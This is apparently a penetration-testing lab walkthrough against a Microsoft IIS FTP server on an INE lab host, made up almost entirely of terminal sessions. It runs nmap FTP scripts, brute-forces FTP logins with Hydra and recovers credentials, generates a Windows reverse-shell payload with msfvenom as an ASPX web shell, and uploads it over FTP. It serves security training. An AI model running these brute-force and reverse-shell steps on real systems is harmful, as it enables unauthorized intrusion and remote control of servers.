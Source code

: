 # Targeting Microsoft IIS FTP

```sh
msf6 > ls -al /usr/share/nmap/scripts/ | grep ftp-
[*] exec: ls -al /usr/share/nmap/scripts/ | grep ftp-

-rw-r--r-- 1 root root  4530 Oct 26  2021 ftp-anon.nse
-rw-r--r-- 1 root root  3253 Oct 26  2021 ftp-bounce.nse
-rw-r--r-- 1 root root  3108 Oct 26  2021 ftp-brute.nse
-rw-r--r-- 1 root root  3272 Oct 26  2021 ftp-libopie.nse
-rw-r--r-- 1 root root  3290 Oct 26  2021 ftp-proftpd-backdoor.nse
-rw-r--r-- 1 root root  3768 Oct 26  2021 ftp-syst.nse
-rw-r--r-- 1 root root  6021 Oct 26  2021 ftp-vsftpd-backdoor.nse
-rw-r--r-- 1 root root  5923 Oct 26  2021 ftp-vuln-cve2010-4221.nse
-rw-r--r-- 1 root root  5736 Oct 26  2021 tftp-enum.nse
msf6 > db_nmap -sV -p 21 --script=ftp-anon 10.5.18.187
[*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-14 16:51 IST
[*] Nmap: Nmap scan report for demo.ine.local (10.5.18.187)
[*] Nmap: Host is up (0.0025s latency).
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     Microsoft ftpd
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 0.52 seconds
msf6 > 
```

```sh
msf6 > ftp 10.5.18.187 21
[*] exec: ftp 10.5.18.187 21

Connected to 10.5.18.187.
220 Microsoft FTP Service
Name (10.5.18.187:root): anonymous
331 Password required for anonymous.
Password: 
530 User cannot log in.
ftp: Login failed
ftp> 
```

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.5.18.187 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC &#x26; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-14 16:54:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 169512 login tries (l:168/p:1009), ~10595 tries per task
[DATA] attacking ftp://10.5.18.187:21/
[STATUS] 4625.00 tries/min, 4625 tries in 00:01h, 164887 to do in 00:36h, 16 active
<strong>[21][ftp] host: 10.5.18.187   login: administrator   password: vagrant
</strong>[STATUS] 4659.00 tries/min, 13977 tries in 00:03h, 155535 to do in 00:34h, 16 active
[STATUS] 4668.43 tries/min, 32679 tries in 00:07h, 136833 to do in 00:30h, 16 active
[STATUS] 4671.20 tries/min, 70068 tries in 00:15h, 99444 to do in 00:22h, 16 active
[STATUS] 4671.85 tries/min, 93437 tries in 00:20h, 76075 to do in 00:17h, 16 active
[STATUS] 4671.96 tries/min, 116799 tries in 00:25h, 52713 to do in 00:12h, 16 active
[STATUS] 4672.40 tries/min, 140172 tries in 00:30h, 29340 to do in 00:07h, 16 active

^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
root@attackdefense:~# hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.5.18.187 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC &#x26; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-14 17:27:41
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ftp://10.5.18.187:21/
<strong>[21][ftp] host: 10.5.18.187   login: vagrant   password: vagrant
</strong>1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-14 17:27:54
root@attackdefense:~# 
</code></pre>

```sh
root@attackdefense:~# msfvenom -p windows/shell/reverse_tcp LHOST=10.5.18.187 LPORT=1234 -f asp > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38296 bytes



root@attackdefense:~# ftp 10.5.18.187 21
Connected to 10.5.18.187.
220 Microsoft FTP Service
Name (10.5.18.187:root): vagrant
331 Password required for vagrant.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49530|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************| 38366       13.50 MiB/s    --:-- ETA
226 Transfer complete.
38366 bytes sent in 00:00 (5.45 MiB/s)
```
